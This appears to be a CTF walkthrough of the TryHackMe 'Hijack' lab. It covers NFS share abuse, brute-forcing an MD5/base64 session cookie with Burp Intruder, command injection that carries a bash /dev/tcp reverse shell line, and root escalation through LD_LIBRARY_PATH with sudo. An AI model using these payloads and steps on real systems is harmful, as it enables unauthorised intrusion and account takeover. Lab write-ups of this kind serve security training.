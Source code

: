 # HIJACK 
![hij](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/15bc4df0-d4e6-471a-ac09-a0538e5d9787)

Link: [Hijack](https://tryhackme.com/r/room/hijack)

## Enumeration
- An NMAP scan reveals that a number of services are running on the open ports of the system.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/390f58ff-5d36-478d-afe1-eed8c69a6960)
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/1f0abcb4-5a76-4662-b4df-9cc4e5a8d1df)

- The services of interest are FTP on port 21, ssh on port 22, http on port 80 and nfs on port 2049. From the NMAP results, FTP does not allow anonymous login. Let's take a look at the website on port 80.
 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/9e2413bf-1f35-47ff-965e-602ad9aea043)
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/d9514ecd-4def-4110-888a-81f34574b6d4)

- The website has an admin panel that cannot be accessed because you do not have the rights to do so. You can run a gobuster scan to find if there are hidden directories in the website. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/73f91c4a-5fdf-49f5-a615-240ed8ffc525)

- The results of the gobuster scan shows that there are no hidden directories of interest. One of the services running on the target machine is NFS. You can list the shares on the target using the command;

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/8d14f2f9-37a8-4b30-bf4a-bf879c1ce525)

- There is only one share on the system which you can mount to your machine and try to find any helpful information that can allow you to access the machine.
 
![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/63027d01-158e-45ac-9e6f-301948d5e4c6)

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/52d95a9e-0bfb-4787-9b3c-a5d98b9aed91)

- You cannot access the mounted share since you are not the owner. You can see that the share is owned by the user (hj_1003). This means that you will have to create the user hj_1003 on your system and switch to that user so that you can access the share. You can do so using the command;

  `sudo adduser hj_1003` 

  and then set the password using the command;

  `passwd hj_1003`

- Now switch to this user and view the contents of the share. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/90676514-2832-4664-ac78-e29900d684db)

- You get FTP credentials which you can now use to log into FTP. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/ea576b65-4064-4343-98a9-d2b1372220ca)

- There are two files of interest here: `.passwords_list.txt` and `from_admin.txt`

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/be6169a8-b083-4ecb-8583-16110bad5091)

- The contents of the latter file reveals that the admin is using one of the passwords from the list. It also reveals that there is another user known as `rick`. With this information, it's time to pay another visit to the website and play around with it.


## Initial Foothold
- Trying to log into the website using the username `admin` and the password `admin` reveals that a user with this name exists but the password is incorrect. Trying this multiple times using default passwords reveals that you only have 5 tries before the system locks you out for 300 seconds.
- You can now try and create a user account to see if there are any parameters, such as cookies, that are present for a user.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/14d4b92e-6253-480b-8875-90ec8c02f3c2)

- You find that there is indeed a cookie for the user that is logged in. Examining this cookie reveals that it is encoded in base64. By decoding it, it can be seen that the cookie is in the format `user:password` where the password is hashed in MD5. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6bb348c5-b3f3-4438-9b9e-041e48e54738)

- With the password wordlist obtained from ftp, you can now bruteforce into the system using Intruder on Burpsuite. You can reload the logged in page of the user you created, capture this on Proxy, send it to Intruder and add the wordlist as well as rules for processing. For the cookie to be created, the password is hashed in MD5, the username is appended to this and then the result is encoded in base64. The rules should reflect this in this exact order.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/79990717-2399-4429-af8b-b7132cfb5d27)

- Click on the result that has a different time length than the rest. This is the cookie for the admin panel.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/329f149d-ead7-4907-985d-9382596a6a5c)

- Now you can log into the account you created and change the cookie to this value. You now have access to the admin panel where you can check the status of a service. 

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/cf01b1d8-4ae7-459c-9b96-5aba8be52d5e)

- While here, you can try to inject a command that gives you a reverse shell. I tried using a semi-colon after inputting ftp but the system detected this as a command injection. The other option is to use `&&` where the second commnad is executed only after the first is completed. With this, you can perform command injection as such to get a reverse shell;

`ftp && bash -c "bash -i >& /dev/tcp/ip/port 0>&1"`
 
   where ip is your listening IP and port is your netcat listening port and executing this gives you a shell.

- Viewing the contents of `config.php` reveals credentials for the user rick which you can ssh into.
- Now, you can get your first flag.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/485fe627-1853-4637-a633-22b2a2c39a63)


## Privilege Escalation
- Now, let's try to gain a root shell. The first vector I usually try is `sudo -l`. Luckily, that gets you a relevant vector for privesc in this case.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/52762bb7-c521-4165-bf12-28337186ea82)

- You can leverage the LD_LIBRARY_PATH environment variable to gain a root shell. This is outlined well [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation?source=post_page-----65e9d2b1a717--------------------------------#ld_preload-and-ld_library_path).
- The steps are as shown below. Copy the code provided into a c file (shell.c). Compile the code as is shown and then run the code and append the sudo command that `rick` is allowed to run on the system.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6339dbab-0d14-4ea1-a9bf-2231e7866d0d)

- This gives you a root shell through which you can get the second flag.

![image](https://github.com/LadyCaldlow/LadyCaldlow.github.io/assets/162819648/6cd0b7a6-d6e4-43ee-b5c5-8b8d28513e54)

